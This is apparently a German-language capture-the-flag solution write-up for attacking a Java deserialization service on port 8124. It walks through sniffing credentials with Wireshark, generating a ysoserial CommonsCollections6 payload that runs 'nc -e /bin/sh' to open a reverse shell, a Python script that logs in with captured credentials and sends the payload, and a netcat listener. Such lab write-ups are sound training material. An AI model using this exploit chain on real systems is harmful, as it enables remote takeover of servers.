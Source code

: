 # Lösungsweg

1. Mit Wireshark die Kommunikation auf Port 8124 anschauen. 
1. Username und Passwort aufschreiben, bei dem serialisierten Objekt kann man anhand des Anfangs `0xaced` erkennen, dass es sich um eine serialisiertes Java Objekt handelt.
1. Mit [ysoserial](https://github.com/frohoff/ysoserial) payloads für die verschiedenen Schwachstellen generieren und durchprobieren, welche funktionieren. Man würde wahrscheinlich mit den Payloads der ApacheCommonsCollection anfangen, weil die relativ häufig verwendet wird. ApacheCommonsCollection 1 bis 4 funktioniert nur unter alten Java-Versionen, daher würde man direkt ApacheCommonsCollection 5 bis 7 ausprobieren:  
`java --illegal-access=permit -jar ysoserial.jar CommonsCollections6 'nc -e /bin/sh 192.168.178.84 9999' > payload` (Achtung: Lokale IP-Adresse einsetzen!)
1. Um den Payload an den Server zu schicken, benötigt man ein Skript, das die Authentifizierung mit den mitgeschnittenen Logindaten durchführt.

```python
import asyncio

async def attack():
    reader, writer = await asyncio.open_connection(
        '127.0.0.1', 8124)

    print('Authenticating...')

    writer.write("johndoe@gmail.com\n".encode())
    await writer.drain()

    data = await reader.readline()
    print(f'Received: {data.decode()!r}')

    writer.write("u372hn8fj128j\n".encode())
    await writer.drain()

    data = await reader.readline()
    print(f'Received: {data.decode()!r}')

    print('Sending payload...')

    with open("payload", "rb") as payload:
        writer.write(payload.read())
        await writer.drain()

        data = await reader.readline()
        print(f'Received: {data.decode()!r}')


    print('Closing the connection...')
    writer.close()
    await writer.wait_closed()

asyncio.run(attack())
```

5. Um die Reverse-Shell zu empfangen, muss man noch auf dem eigenen Rechner den Listener starten: `nc -lvp 9999`
